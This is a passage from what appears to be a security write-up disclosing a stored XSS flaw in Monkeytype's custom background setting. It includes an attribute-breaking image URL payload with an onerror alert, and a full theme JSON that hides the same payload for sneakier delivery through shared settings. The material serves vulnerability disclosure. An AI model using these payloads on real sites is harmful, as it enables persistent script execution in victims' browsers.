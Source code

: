 `https://www.evil.com/"onerror="alert('window.origin: ' + window.origin + '\nDasian#1967');"?.png`

We place this into the custom background section and...

![xss](/images/monkeytype/monkeytype-xss.png)

XSS has been discovered!!!

The settings for this website are saved and the XSS payload will 
run every time the site is visited or refreshed. It may seem 
impractical for a user to input such a malicious website on purpose, 
but there is another way to update settings which makes the malicious 
activity sneakier

Rather than inputting the malicious link directly, there is an option 
to paste a full theme from JSON. This makes it easier to share themes 
between friends, but these files can be large. It's now much harder 
for a user to notice anything suspicious

{% highlight json %}
{"theme":"matrix","themeLight":"serika","themeDark":"serika_dark",
"autoSwitchTheme":true,"customTheme":false,
"customThemeColors":["#323437","#e2b714","#e2b714","#646669",
"#000000","#d1d0c5","#ca4754","#7e2a33","#ca4754","#7e2a33"],
"favThemes":["matrix"],"showKeyTips":true,"showLiveWpm":false,
"showTimerProgress":true,"smoothCaret":true,"quickRestart":"off",
"punctuation":false,"numbers":false,"words":100,"time":60,"mode":"time",
"quoteLength":[0],"language":"english","fontSize":"15","freedomMode":false,
"difficulty":"normal","blindMode":false,"quickEnd":false,
"caretStyle":"default","paceCaretStyle":"default","flipTestColors":false,
"layout":"default","funbox":"none","confidenceMode":"off",
"indicateTypos":"off","timerStyle":"mini","colorfulMode":false,
"randomTheme":"fav","timerColor":"main","timerOpacity":"1",
"stopOnError":"off","showAllLines":true,"keymapMode":"off",
"keymapStyle":"staggered","keymapLegendStyle":"lowercase",
"keymapLayout":"overrideSync","fontFamily":"Roboto_Mono",
"smoothLineScroll":true,"alwaysShowDecimalPlaces":false,
"alwaysShowWordsHistory":false,"singleListCommandLine":"manual",
"capsLockWarning":true,"playSoundOnError":false,"playSoundOnClick":"6",
"soundVolume":"0.5","startGraphsAtZero":true,"showOutOfFocusWarning":true,
"paceCaret":"off","paceCaretCustomSpeed":100,"repeatedPace":true,
"pageWidth":"100","chartAccuracy":true,"chartStyle":"line",
"minWpm":"off","minWpmCustomSpeed":100,"highlightMode":"letter",
"alwaysShowCPM":false,"ads":"off","hideExtraLetters":false,
"strictSpace":false,"minAcc":"off","minAccCustom":90,
"showLiveAcc":false,"showLiveBurst":false,"monkey":false,
"repeatQuotes":"off","oppositeShiftMode":"off",
"customBackground":"https://www.tmp.monkeytype.com/\"onerror=\"alert('imported settings\\nwindow.origin:'+window.origin+'\\nDasian#1967');\"?.png",
"customBackgroundSize":"contain","customBackgroundFilter":[0,1,1,1,1],
"customLayoutfluid":"qwerty#dvorak#colemak","monkeyPowerLevel":"off",
"minBurst":"off","minBurstCustomSpeed":100,"burstHeatmap":true,
"britishEnglish":false,"lazyMode":false,"showAverage":"off"}
{% endhighlight %}
